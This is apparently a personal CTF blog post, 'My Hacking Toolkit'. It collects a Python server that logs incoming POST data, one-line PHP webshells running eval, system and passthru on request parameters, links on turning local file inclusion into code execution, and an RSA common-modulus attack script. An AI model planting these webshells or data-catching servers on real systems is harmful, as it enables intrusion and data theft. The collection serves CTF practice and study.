 ```yaml
---
abbrlink: 4e56d65
categories:
    - - Hacking
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/9/Blog_cover%20(17)%20(1)_3e1f0c91c61253af1f2670f4341e7d33.jpg
date: "2024-09-03T23:50:41.047232+08:00"
sticky: 1337
tags: CTF
title: My Hacking Toolkit
updated: "2024-09-04T16:33:10.514+08:00"
---
```


# Web

## Temp Server (Python)

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

## One-liner Trojan (Backdoor, Webshell)

```php
<?php @eval($_POST['shell']);?>
<?php @system($_POST["cmd"])?>
<?php passthru($_GET['cmd']); ?>
```

## LFI & RFI

### LFI2RCE

-   [Advanced Local File Inclusion to RCE in 2022](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)
-   [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/CX330Blake/PHP_INCLUDE_TO_SHELL_CHAR_DICT)

# Crypto

## Common Modulus Attack

```python
from Crypto.Util.number import long_to_bytes

n = 8043524339665486501722690364841854181558012095441297536641336786057021881436981279151373985115124256457664918399612791182378270114245970486016546496099141
e1 = 863047
c1 = 977794351462943753500623403456170325029164798178157637276767524847451843872628142596652557213651039320937257524442343930998122764638359874102209638080782
e2 = 995023
c2 = 7803335784329682230086969003344860669091120072205053582211253806085013270674227310898253029435120218230585288142781999838242977459669454181592089356383378


def egcd(a: int, b: int) -> tuple[int, int, int]:
    if a == 0:
        return (b, 0, 1)
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)


def inverse(a: int, b: int) -> int:
    g, x, y = egcd(a, b)  # ax + by = g
    if g == 1:
        return x % b
    raise ValueError("base is not invertible for the given modulus.")


g, x, y = egcd(e1, e2)

if x < 0:
    c1_inv = inverse(c1, n)
    c1 = pow(c1_inv, -x, n)
else:
    c1 = pow(c1, x, n)

if y < 0:
    c2_inv = inverse(c2, n)
    c2 = pow(c2_inv, -y, n)
else:
    c2 = pow(c2, y, n)

m = (c1 * c2) % n
print(long_to_bytes(m))
```

## Hash Collision

-   [Hash Collisions](https://github.com/CX330Blake/Hash-Collisions/)
